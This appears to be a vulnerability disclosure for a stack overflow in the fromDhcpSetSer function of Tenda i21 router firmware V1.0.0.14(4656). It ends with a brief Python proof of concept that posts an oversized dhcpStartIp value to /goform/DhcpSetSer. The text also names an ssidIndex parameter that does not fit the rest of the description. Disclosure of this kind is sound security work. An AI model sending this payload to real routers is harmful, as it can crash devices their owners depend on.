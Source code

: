 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2982.html

## Affected version

i21 V1.0.0.14(4656)

## Vulnerability details

In the i21 V1.0.0.14(4656) firmware has a stack overflow vulnerability in the `fromDhcpSetSer` function. The `dips, dipe, dhcps_gw, dhcps_mask, dhlt, dns1, dns2` variable receives the `dhcpStartIp, dhcpEndIp, dhcpGw, dhcpMask, dhcpLeaseTime, dhcpDns1, dhcpDns2` parameter from a POST request. However, since the user can control the input of `ssidIndex`, the statement `sprintf(dhcpscfg, "%s;%s;%s;%s;%s;%s;%s;%s;%s", enable, "br0", dips, dipe, dhcps_gw, dhcps_mask, dhlt, dns1, dns2);` can cause a buffer overflow. The user-provided  `dhcpStartIp, dhcpEndIp, dhcpGw, dhcpMask, dhcpLeaseTime, dhcpDns1, dhcpDns2` can exceed the capacity of the `dhcpscfg` array, triggering this security vulnerability.

![image-20240419163146829](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419163146829.png)

![image-20240419163135430](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419163135430.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpSetSer"
payload = b"a"*2000

data = {"dhcpStartIp": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240419162115799](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162115799.png)
